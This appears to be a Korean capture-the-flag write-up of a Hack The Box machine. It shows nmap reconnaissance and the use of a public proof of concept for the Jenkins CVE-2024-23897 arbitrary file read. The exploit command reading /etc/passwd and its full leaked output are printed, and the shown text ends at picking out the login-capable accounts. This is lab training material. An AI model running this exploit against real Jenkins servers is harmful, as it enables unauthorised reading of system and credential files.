


> write-up 컨텐츠의 경우 제가 풀었던 의식의 흐름을 기억해놓고자 작성합니다. 두서 없이 정리된 만큼, 문제 풀이는 다른 분꺼 참고를 추천합니다.
{: .prompt-tip }

## [0x00] recon
---
nmap으로 확인해본 결과 22, 8080이 열려있고 8080에서는 http가 동작하고 있음을 알 수 있다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# nmap -sCV 10.10.11.10
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-04 05:06 EDT
Nmap scan report for 10.10.11.10
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
8080/tcp open  http    Jetty 10.0.18
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Dashboard [Jenkins]
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Jetty(10.0.18)
```

8080으로 접근 시 Jenkins가 동작하고 있음을 알 수 있다. 사진에는 나오지 않았지만, 페이지 좌측 하단을 보면 Jenkins 2.441 버전이 나와있다.


Jenkins 2.441 CVE를 검색해본 2024년에 발견된 cve-2024-23897 취약점이 나타난다.


## [0x01] cve exploit
--- 

공격에 사용한 [PoC Code](https://github.com/Praison001/CVE-2024-23897-Jenkins-Arbitrary-Read-File-Vulnerability)의 사용법에 따라 아래와 같이 실행하였다. 음...공격에 실패한건가...
``` bash
┌──(root㉿kali)-[/home/user/htb]
└─# python3 cve-2024-23897.py -u http://10.10.11.10:8080/ -f /etc/passwd
   _  _         _     _   _          ___ _
 | || |__ _ __| |__ | |_| |_  ___  | _ \ |__ _ _ _  ___| |_
 | __ / _` / _| / / |  _| ' \/ -_) |  _/ / _` | ' \/ -_)  _|
 |_||_\__,_\__|_\_\  \__|_||_\___| |_| |_\__,_|_||_\___|\__|

Exploiting..
b'\x00'
```

이게 아닌가 다른 PoC 코드도 써보고 시도하다가 설마 `"`를 안넣어서 그런가했는데...세상에 그게 맞았다.
``` bash
┌──(root㉿kali)-[/home/user/htb]
└─# python3 cve-2024-23897.py -u http://10.10.11.10:8080/ -f "/etc/passwd"
   _  _         _     _   _          ___ _
 | || |__ _ __| |__ | |_| |_  ___  | _ \ |__ _ _ _  ___| |_
 | __ / _` / _| / / |  _| ' \/ -_) |  _/ / _` | ' \/ -_)  _|
 |_||_\__,_\__|_\_\  \__|_||_\___| |_| |_\__,_|_||_\___|\__|

Exploiting..
b'\x00\x00\x00\x00\x83\x08www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin: No such agent "www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin" exists.\n\x00\x00\x00Y\x08root:x:0:0:root:/root:/bin/bash: No such agent "root:x:0:0:root:/root:/bin/bash" exists.\n\x00\x00\x00q\x08mail:x:8:8:mail:/var/mail:/usr/sbin/nologin: No such agent "mail:x:8:8:mail:/var/mail:/usr/sbin/nologin" exists.\n\x00\x00\x00\x83\x08backup:x:34:34:backup:/var/backups:/usr/sbin/nologin: No such agent "backup:x:34:34:backup:/var/backups:/usr/sbin/nologin" exists.\n\x00\x00\x00y\x08_apt:x:42:65534::/nonexistent:/usr/sbin/nologin: No such agent "_apt:x:42:65534::/nonexistent:/usr/sbin/nologin" exists.\n\x00\x00\x00\x8f\x08nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin: No such agent "nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin" exists.\n\x00\x00\x00s\x08lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin: No such agent "lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin" exists.\n\x00\x00\x00\x81\x08uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin: No such agent "uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin" exists.\n\x00\x00\x00c\x08bin:x:2:2:bin:/bin:/usr/sbin/nologin: No such agent "bin:x:2:2:bin:/bin:/usr/sbin/nologin" exists.\n\x00\x00\x00}\x08news:x:9:9:news:/var/spool/news:/usr/sbin/nologin: No such agent "news:x:9:9:news:/var/spool/news:/usr/sbin/nologin" exists.\n\x00\x00\x00o\x08proxy:x:13:13:proxy:/bin:/usr/sbin/nologin: No such agent "proxy:x:13:13:proxy:/bin:/usr/sbin/nologin" exists.\n\x00\x00\x00s\x08irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin: No such agent "irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin" exists.\n\x00\x00\x00\x95\x08list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin: No such agent "list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin" exists.\n\x00\x00\x00{\x08jenkins:x:1000:1000::/var/jenkins_home:/bin/bash: No such agent "jenkins:x:1000:1000::/var/jenkins_home:/bin/bash" exists.\n\x00\x00\x00y\x08games:x:5:60:games:/usr/games:/usr/sbin/nologin: No such agent "games:x:5:60:games:/usr/games:/usr/sbin/nologin" exists.\n\x00\x00\x00y\x08man:x:6:12:man:/var/cache/man:/usr/sbin/nologin: No such agent "man:x:6:12:man:/var/cache/man:/usr/sbin/nologin" exists.\n\x00\x00\x00y\x08daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin: No such agent "daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin" exists.\n\x00\x00\x00c\x08sys:x:3:3:sys:/dev:/usr/sbin/nologin: No such agent "sys:x:3:3:sys:/dev:/usr/sbin/nologin" exists.\n\x00\x00\x00_\x08sync:x:4:65534:sync:/bin:/bin/sync: No such agent "sync:x:4:65534:sync:/bin:/bin/sync" exists.\n\x00\x00\x00\x01\x08\n\x00\x00\x00Q\x08ERROR: Error occurred while performing this command, see previous stderr output.\n\x00\x00\x00\x04\x04\x00\x00\x00\x05'
```

가독성 좋게 정리하면 아래와 같다. 이중 로그인 가능한 계정만 추려보면 root와 jenkins이다.
``` bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin: No such agent "www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin" exists.
root:x:0:0:root:/root:/bin/bash: No such agent "root:x:0:0:root:/root:/bin/bash" exists.
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin: No such agent "mail:x:8:8:mail:/var/mail:/usr/sbin/nologin" exists.
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin: No such agent "backup:x:34:34:backup:/var/backups:/usr/sbin/nologin" exists.
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin: No such agent "_apt:x:42:65534::/nonexistent:/usr/sbin/nologin" exists.
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin: No such agent "nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin" exists.
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin: No such agent "lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin" exists.
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin: No such agent "uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin" exists.
bin:x:2:2:bin:/bin:/usr/sbin/nologin: No such agent "bin:x:2:2:bin:/bin:/usr/sbin/nologin" exists.
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin: No such agent "news:x:9:9:news:/var/spool/news:/usr/sbin/nologin" exists.
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin: No such agent "proxy:x:13:13:proxy:/bin:/usr/sbin/nologin" exists.
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin: No such agent "irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin" exists.
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin: No such agent "list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin" exists.
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash: No such agent "jenkins:x:1000:1000::/var/jenkins_home:/bin/bash" exists.
games:x:5:60:games:/usr/games:/usr/sbin/nologin: No such agent "games:x:5:60:games:/usr/games:/usr/sbin/nologin" exists.
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin: No such agent "man:x:6:12:man:/var/cache/man:/usr/sbin/nologin" exists.
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin: No such agent "daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin" exists.
sys:x:3:3:sys:/dev:/usr/sbin/nologin: No such agent "sys:x:3:3:sys:/dev:/usr/sbin/nologin" exists.
sync:x:4:65534:sync:/bin:/bin/sync: No such agent "sync:x:4:65534:sync:/bin:/bin/sync" exists.

```
